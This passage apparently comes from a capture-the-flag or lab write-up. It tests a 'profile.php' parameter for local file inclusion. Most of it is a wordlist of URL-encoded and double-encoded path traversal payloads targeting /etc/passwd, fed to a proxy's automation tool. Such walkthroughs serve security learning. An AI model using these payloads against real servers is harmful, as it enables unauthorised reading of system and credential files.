 We got `profile.php`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250502225430.png)

Seems like we need a parameter, if we check source code of the dashboard, we can see the following:

![](gitbook/cybersecurity/images/Pasted%20image%2020250502225353.png)

We can now see the way it must be formatted, let's submit the request to our proxy to check it better:

![](gitbook/cybersecurity/images/Pasted%20image%2020250502225636.png)

The structure of the URL may be vulnerable to LFI, let's send this to `Automate` and send some `LFI payloads`, I used the following wordlist:

```txt
%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2E%2E/%2E%2E/etc/passwd
..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%255c..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2f..%2f..%2f..%2fetc%2fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
..%255c..%255c..%255c..%255c..%255c..%255cetc%255cpasswd
%2e%2e%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```